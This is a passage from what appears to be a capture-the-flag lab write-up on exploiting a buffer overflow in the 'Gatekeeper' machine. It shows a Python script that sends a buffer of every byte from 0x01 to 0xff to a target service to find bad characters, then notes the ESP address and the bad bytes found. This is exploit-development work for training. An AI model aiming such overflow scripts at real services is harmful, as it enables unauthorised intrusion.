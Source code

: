 ```python
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```    

- ![image](https://user-images.githubusercontent.com/94720207/169704833-feaa56fd-938f-4919-89dc-1db656a4b913.png)

- Step by step:

    - Execute first time script:
        
        - **`python3 overflow_gatekeeper_find_badchars.py`**

1. Run the python script for first time with all the badchars from \x01 to \xFF:

    - ![image](https://user-images.githubusercontent.com/94720207/169704921-f00766c9-4181-4f66-8d82-f93bd1fe0a0c.png)
        
    - ![image](https://user-images.githubusercontent.com/94720207/169704965-7fc65885-85be-4e81-a262-124a942f3863.png)
 
2. **Make a note of the address to which the `ESP` register points:

    - **ESP points: `007619E4`**
    
        - **In this lab is easier to find the badchar only by sight, no need of mona module**
        
        - **First, I only saw default \x00 but is also missing \x0a** 
        
            - ![image](https://user-images.githubusercontent.com/94720207/169705105-708803aa-66db-42dc-bf39-29e18605d93c.png)
            
            - ![image](https://user-images.githubusercontent.com/94720207/169707089-c804d0f5-3114-4dd3-819e-a3caeea68e6f.png)
       